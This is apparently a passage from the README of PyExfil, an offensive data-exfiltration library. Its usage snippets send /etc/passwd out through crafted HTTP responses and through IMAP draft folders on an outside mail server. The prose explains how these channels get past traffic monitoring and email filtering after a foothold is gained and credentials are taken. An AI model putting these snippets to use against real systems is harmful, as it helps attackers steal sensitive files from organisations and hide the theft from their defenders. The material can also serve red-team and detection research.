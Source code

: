 Decoding (must run simultaneously)
```python
from pyexfil.network.SpoofIP import spoofIPs_server

sniff(iface="en0", prn=pkt_callback, filter="tcp", store=0)
```

#### HTTP Response

This one uses a custom crafter HTTP Response instead of a request. This might be
very useful in various cases. Many times HTTP requests are monitored for ratio,
type, data, etc and Responses are kind of ignored. **Could be extremely useful
in cases when you have passive MiTM!**

```python
from pyexfil.network.HTTPResp.client import Broadcast
b = Broadcast(
                fname="/etc/passwd",
                dst_ip="www.espn.com",
                dst_port=80,
                max_size=1024,
                key=DEFAULT_KEY
                )
b.Exfiltrate()

# Assembly of data
a = Assemble()
for i in b.packets:
	if a._append(i):
		continue
	else:
		print(i)
print(a.Build())
```

#### IMAP Draft
This particular module is extremely useful when the organization is using IMAP mailboxes with email filtering. The general concept is that email filtering is applied on outgoing (and sometimes) incoming emails. However, these filters are generally no applied to Draft folders since these are not yet in transit.

In a case where you have obtained a foothold on such a machine, by extracting the credentials you can access the mailbox associated with the account from outside the organization's corporate network.

```python
from pyexfil.network.Draft import Send, Broker

a = Send(file_path='/etc/passwd', server_addr='mail.MoriRT.com', server_creds=('MAILBOX@HOST.com','PASSWORD!'), key='DEFAULT')
check = a.Exfiltrate()
print(check) # Boolean
```

### Communication
